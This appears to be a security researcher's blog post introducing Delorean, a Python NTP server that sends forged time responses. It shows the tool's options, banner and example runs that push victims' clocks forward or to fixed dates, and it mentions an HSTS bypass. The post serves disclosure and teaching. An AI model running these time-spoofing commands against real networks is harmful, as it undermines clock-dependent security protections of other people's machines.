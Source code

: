 Delorean is an NTP server written in python, open source and available from GitHub (contributions are welcomed). I borrowed a few lines of code from kimifly's ntpserver and, of course, all the credits to him have been included.

What makes Delorean different and useful for us is that we can configure its flags in order to make it work in a different way than a regular NTP server. Basically, we can configure it in order to send fake responses, similar to the Metasploit's fakedns module.

```
$ ./delorean.py -h
Usage: delorean.py [options]

Options:
-h, --help show this help message and exit
-i INTERFACE, --interface=INTERFACE Listening interface
-p PORT, --port=PORT Listening port
-n, --nobanner Not show Delorean banner
-s STEP, --force-step=STEP Force the time step: 3m (minutes), 4d (days), 1M (month)
-d DATE, --force-date=DATE Force the date: YYYY-MM-DD hh:mm[:ss]
-x, --random-date Use random date each time
```

We have the typical interface (-i) and port (-p) flags, that help us to bind the service exactly where we want. The -n flag only hides the super-cool Delorean banner :)

```
                                    _._                                          
                               _.-="_-         _                                 
                          _.-="   _-          | ||"""""""---._______     __..    
              ___.===""""-.______-,,,,,,,,,,,,`-''----" """""       """""  __'   
       __.--""     __        ,'                   o \           __        [__|   
  __-""=======.--""  ""--.=================================.--""  ""--.=======:  
 ]       [w] : /        \ : |========================|    : /        \ :  [w] :  
 V___________:|          |: |========================|    :|          |:   _-"   
  V__________: \        / :_|=======================/_____: \        / :__-"     
  -----------'  ""____""  `-------------------------------'  ""____"" 
``` 

We can use Delorean in several modes, but we are going to focus in the most useful ones. There are some other attacks that weren't really interesting after developing them, but they are still in the code. Perhaps I will remove them in the future, sine they require scapy and some dependencies.

Since it's too soon yet to talk about how OS synchronize, we will test how Delorean works using the command line tool "ntpdate":

```
$ ntpdate -q 192.168.1.2
server 192.168.1.2, stratum 2, offset 97372804.086845, delay 0.02699
20 Oct 06:05:45 ntpdate[881]: step time server 192.168.1.2 offset 97372804.086845 sec
```

By default (no flags), Delorean responses a date that matches the same week and month day than the current date, but at least 1000 days in the future. This was useful for the HSTS bypass as we will see in upcoming posts.

```
# ./delorean.py -n 
[19:44:42] Sent to 192.168.10.113:123 - Going to the future! 2018-08-31 19:44 
[19:45:18] Sent to 192.168.10.113:123 - Going to the future! 2018-08-31 19:45
```

We can set a relative jump from the current date using the step flag (-s). Relative jumps can be defined as 10d (ten days in the future), -2y (two years in the past), etc:

```
# ./delorean.py -s 10d -n 
[19:46:09] Sent to 192.168.10.113:123 - Going to the future! 2015-08-10 19:46 
[19:47:19] Sent to 192.168.10.113:123 - Going to the future! 2015-08-10 19:47
```

We can also set a specific date, and Delorean would answer always the same date. Please note that this date is static, and it is not incremented on each request:

```
# ./delorean.py -d ‘2020-08-01 21:15’ -n 
[19:49:50] Sent to 127.0.0.1:48473 - Going to the future! 2020-08-01 21:15 
[19:50:10] Sent to 127.0.0.1:52406 - Going to the future! 2020-08-01 21:15
```

There are a number of attacks that you can run using Delorean. I shown some of them in DEF CON 23: https://www.youtube.com/watch?v=hkw9tFnJk8k
